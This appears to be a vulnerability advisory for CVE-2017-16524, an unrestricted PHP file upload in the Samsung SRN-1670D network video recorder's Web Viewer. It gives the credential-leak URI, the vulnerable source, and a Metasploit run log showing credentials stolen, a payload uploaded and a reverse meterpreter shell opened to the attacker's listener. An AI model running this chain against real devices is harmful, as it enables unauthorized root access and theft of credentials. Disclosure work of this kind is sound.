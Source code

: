 # CVE-2017-16524

### Discovered by
Omar Mezrag - 0xFFFFFF

### Affected Product
Samsung Network Video Recorders - Web Viewer 1.0.0.193 on Samsung SRN-1670D

### Vendor of Product
Hanwha / Samsung Security - https://www.hanwhasecurity.com/

### Vulnerability type
Unrestricted file upload vulnerability

### Attack Vector
```markdown
AccessVector (AV): Network
User Interaction (UI): None
Authentication (Au): Requires single instance
```

### Impact
```markdown
Code execution (ROOT)
```

### Affected Component
```markdown
network_ssl_upload.php (tested)
network_802_1x1.php (suspected)
network_802_1x2.php (suspected)
```


### Desciption
Web Viewer 1.0.0.193 on Samsung SRN-1670D device suffers from an
Unrestricted file upload vulnerability: 'network_ssl_upload.php'
allows remote authenticated attackers to upload and execute arbitrary
PHP code via a filename with a .php extension, which is then accessed via a
direct request to the file in the upload/ directory. 
To authenticate for this attack, one can obtain web-interface credentials 
in cleartext by leveraging the existing Local File Read Vulnerability 
referenced as CVE-2015-8279, which allows remote attackers to read the 
web interface credentials via a request for the URI:
```markdown
cslog_export.php?path=/root/php_modules/lighttpd/sbin/userpw 
```


### Vulnerable source code (network_ssl_upload.php) :
```markdown
    22 $path = "./upload/";
    23 $file = $_FILES[ "attachFile" ];
    24 $isApply = ( int )$_POST[ "is_apply" ];
    25 $isInstall = ( int )$_POST[ "isInstall" ];
    26 $isCertFlag = ( int )$_POST[ "isCertFlag" ];
    27 
    28 // create socket
    29 $N_message = "";
    30 $sock = mySocket_create($_is_unix_socket);
    31 $connected = mySocket_connect($_is_unix_socket, $sock);
    32 
    33 $loginInfo = new loginInfo();
    34 $retLogin = loginManager( $connected, $sock, null, $loginInfo );
    35 if ( ( $retLogin == true ) && ( $isApply == 2 || $isApply == 3 ) ) {
    36  if ($connected) {
    37   $id = $loginInfo->get_id();
    38   $xmlFile = $id.'_config.xml';
    39   $N_message = "dummy".nvr_command::DELIM;
    40   $N_message .= "userid ".$id.nvr_command::DELIM;
    41   
    42   if ( $isInstall == 1 ) {
    43    // File upload ===============================================================  
    44    if ( $file[ "error" ] 0 ) {
    45     $Error = "Error: ".$file[ "error" ];
    46    } else {
    47     $retFile = @copy( $file[ "tmp_name" ], $path.$file[ "name" ] );
    48    }
    49    // ===========================================================================
    50   }
```

### PoC
Metasploit module: [samsung_srv_1670d_upload_exec](https://github.com/realistic-security/CVE-2017-16524/blob/master/samsung_srv_1670d_upload_exec.rb)
```markdown
msf exploit(samsung_srv_1670d_upload_exec) > show options 

Module options (exploit/multi/http/samsung_srv_1670d_upload_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.1.200      yes       The target address.
   RPORT    80               yes       The target port (TCP).
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.122      yes       The listen address
   LPORT  4358             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samsung SRN-1670D == 1.0.0.193


msf exploit(samsung_srv_1670d_upload_exec) > exploit -j 
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.1.122:4358 
msf exploit(samsung_srv_1670d_upload_exec) > [*] Obtaining credentails...
[+] Credentials obtained successfully: admin:pass123!
[*] Logging...
[+] Authentication Succeeded
[*] Generating payload[ eRdGKfFJ.php ]...
[*] Uploading payload...
[*] Executing payload...
[*] Sending stage (33986 bytes) to 192.168.1.200
[*] Meterpreter session 3 opened (192.168.1.122:4358 -> 192.168.1.200:55676) at 2017-06-19 11:52:22 +0100
```

### Additional Information
Possibly other scripts like 'network_802_1x1.php' and 'network_802_1x2.php' are affected 
by the same vulnerability but I didn't test them.

### References 
CVE-2015-8279: http://blog.emaze.net/2016/01/multiple-vulnerabilities-samsung-srn.html
